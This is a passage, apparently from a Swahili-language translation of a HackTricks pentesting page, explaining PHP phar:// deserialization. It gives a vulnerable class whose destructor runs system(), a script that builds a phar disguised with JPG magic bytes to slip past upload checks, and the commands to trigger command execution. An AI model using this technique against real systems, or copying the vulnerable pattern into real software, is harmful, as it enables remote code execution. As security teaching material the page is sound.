 # phar:// deserialization

{{#include ../../banners/hacktricks-training.md}}

**Phar** files (PHP Archive) files **zina metadata katika muundo wa serialized**, hivyo, wakati zinapochambuliwa, hii **metadata** inakuwa **deserialized** na unaweza kujaribu kutumia udhaifu wa **deserialization** ndani ya **PHP** code.

Jambo bora kuhusu sifa hii ni kwamba deserialization hii itatokea hata kwa kutumia kazi za PHP ambazo hazifanyi eval PHP code kama **file_get_contents(), fopen(), file() au file_exists(), md5_file(), filemtime() au filesize()**.

Hivyo, fikiria hali ambapo unaweza kufanya PHP web ipate ukubwa wa faili isiyo na mipaka kwa kutumia **`phar://`** protokali, na ndani ya code unapata **class** inayofanana na ifuatayo:
```php:vunl.php
<?php
class AnyClass {
public $data = null;
public function __construct($data) {
$this->data = $data;
}

function __destruct() {
system($this->data);
}
}

filesize("phar://test.phar"); #The attacker can control this path
```
Unaweza kuunda faili la **phar** ambalo linapopakuliwa litafanya **kudhulumu darasa hili ili kutekeleza amri zisizo na mipaka** kwa kitu kama:
```php:create_phar.php
<?php

class AnyClass {
public $data = null;
public function __construct($data) {
$this->data = $data;
}

function __destruct() {
system($this->data);
}
}

// create new Phar
$phar = new Phar('test.phar');
$phar->startBuffering();
$phar->addFromString('test.txt', 'text');
$phar->setStub("\xff\xd8\xff\n<?php __HALT_COMPILER(); ?>");

// add object of any class as meta data
$object = new AnyClass('whoami');
$phar->setMetadata($object);
$phar->stopBuffering();
```
Kumbuka jinsi **magic bytes za JPG** (`\xff\xd8\xff`) zinavyoongezwa mwanzoni mwa faili la phar ili **kuepuka** **uwezekano** wa **kupakia** **vikwazo**.\
**Tengeneza** faili la `test.phar` kwa:
```bash
php --define phar.readonly=0 create_phar.php
```
Na utekeleze amri ya `whoami` ukitumia msimbo ulio hatarini kwa:
```bash
php vuln.php
```
### Marejeleo


{{#ref}}
https://blog.ripstech.com/2018/new-php-exploitation-technique/
{{#endref}}

{{#include ../../banners/hacktricks-training.md}}
